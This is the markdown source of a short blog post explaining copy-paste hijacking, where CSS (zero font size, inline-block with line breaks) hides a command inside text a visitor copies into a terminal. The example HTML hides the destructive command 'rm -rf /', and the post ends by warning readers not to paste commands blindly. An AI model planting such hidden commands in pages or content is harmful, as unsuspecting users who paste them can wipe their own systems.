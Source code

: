 ```yaml
---
layout: post
title: "Using CSS to hide evil things"
style: csshack
date: 2020-07-21
---
```



## Topic


Good evening neighbors,  
<br />
Quickie:  
Today I'd like to talk to you about a thing everyone does but no one pays a lot of 
attention to it.  
> __Copy/Pasting things from the internet into your terminal__

One would think what could possibly happen if I just copy this code from some
website I've found to fix my issue on the server.  
Well lets see...


## What you see isn't what you get

Let's take the following example:
<br />
Please use the textarea to paste the content into.  

{% include csshack.html %}

<img src="/assets/images/pikachu.jpg" style="max-width:40%">

<br />

While this attack isn't highly sophisticated I can think of multiple sysadmins off the top of my head who
would own their own server if they would be targeted by this attack.


## Craft
__HTML__
```
<span id="select">
    Copy/Paste to fix your
    <p id="danger">
        <br />
            rm -rf / # all your base are belong to us
        <br />
    </p>
    server
</span>
```

__CSS__
```
span#select{
    color: blue;
    user-select: all;
}
p#danger{
    display: inline-block;
    font-size:0px;
}
```

"display:inline-block" is used that the <br/> tags don't create a newline in html but act
as newline in a bash terminal which is equivalent as hitting the enter key. (doesn't work with zsh)  

"font-site:0px" is used to hide the text.

"user-select: all" was just added for convenience and could even be
suspicious to the trained eye.

## Why not JS/HTML5?
Of course it would be easier to copy any content to the user clipboard with
HTML5/JS. But I've wanted to share some CSS tricks with you guys. There's also
the CSS keylogger which I may share somewhere down the line.

## Conclusion
I've just wanted to share this piece of unlikely tech which could prevent you
from executing malicious code on your servers. :)

Also don't run around and just copy/paste stuff in your terminal.


### Likelihood
Highly unlikely ヽ(ﾟ_ﾟ)ノ

<br />

Thanks for reading. 
